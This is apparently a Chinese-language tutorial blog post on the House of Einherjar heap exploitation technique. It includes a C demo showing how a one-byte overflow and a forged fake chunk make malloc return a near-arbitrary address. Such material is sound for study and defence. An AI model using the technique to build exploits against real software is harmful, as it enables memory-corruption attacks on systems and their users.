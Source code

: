 ```yaml
---
title: "heap利用 9/9: House of Einherjar"
date: 2023-02-05T15:36:08+08:00           

tags : [                                    
"heap利用",
]
categories : [                              
"heap利用",
]
keywords : [                                
"heap利用",
]
---
```




## 1. 概述
这个house不是"The Malloc Maleficarum"的一部分。这种堆利用技术由Hiroki Matsukuma于2016年提出。攻击的目的是使`malloc`返回一个几乎任意一个地址的chunk。与其他攻击不同，这种攻击利用单个字节溢出。受著名的"off by one"影响，存在许多与此相关的软件漏洞。

House of Einherjar 通过利用堆本身存在的溢出漏洞，通过修改、构造chunk的结构来欺骗程序实现攻击目的。具体手段是：通过单字节溢出修改内存中目标chunk的`size`位，并将其`PREV_IN_USE`标志置为0。此外，它会将其`prev_size`（实际已经在其前一个chunk的数据区域中）重写为fake size。当free目标chunk时，`free`函数会发现它的前一个chunk是空闲的，并通过返回内存中的fake size来向前合并。我们可以计算出这个fake size，合并一个几乎任意地址的fake chunk，最终会变成一个大的fake chunk，随后的`malloc`将返回这个fake chunk。

## 2. 示例程序[[完整代码](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/house_of_einherjar.c)]
```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[32];               // padding
};

struct chunk_structure *chunk1, fake_chunk;     // fake chunk is at 0x7ffee6b64e90
size_t allotedSize;
unsigned long long *ptr1, *ptr2;
char *ptr;
void *victim;

// Allocate any chunk
// The attacker will overflow 1 byte through this chunk into the next one
ptr1 = malloc(40);                              // at 0x1dbb010

// Allocate another chunk
ptr2 = malloc(0xf8);                            // at 0x1dbb040

chunk1 = (struct chunk_structure *)(ptr1 - 2);
allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

// Attacker initiates a heap overflow
// Off by one overflow of ptr1, overflows into ptr2's 'size'
ptr = (char *)ptr1;
ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

// Fake chunk
fake_chunk.size = 0x100;   // enough size to service the malloc request
// These two will ensure that unlink security checks pass
// i.e. P->fd->bk == P and P->bk->fd == P
fake_chunk.fd = &fake_chunk;
fake_chunk.bk = &fake_chunk;

// Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
// This falls within the bounds of ptr1's chunk - no need to overflow
*(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                - (size_t)&fake_chunk;

// Free the second chunk. It will detect the previous chunk in memory as free and try
// to merge with it. Now, top chunk will point to fake_chunk
free(ptr2);

victim = malloc(40);                  // Returns address 0x7ffee6b64ea0 !!
```
注意：
1. 申请第二个chunk（ptr2）的大小为0xf8。这个大小的好处是确保了实际chunk的大小具有最低有效字节0（忽略标志位）。因此，可以在不改变chunk大小的情况下，将其`PREV_IN_USE`位设置为0。
2. 将`allotedSize`减去`sizeof(size_t)`。`allotedSize`等于整个chunk的大小。但是，实际用于数据的大小要比这个值小`sizeof(size_t)`，也等于堆中的`size`参数。这是因为当前chunk的`size`和`prev_size`不能被用于存储用户数据，但可以使用其下一个chunk的`prev_size`用于存储用户数据。
3. 调整fake chunk的`fd`和`bd`指针，这里为了简单起见，将两个指针都指向chunk本身，这样便可以通过`unlink`的安全检查。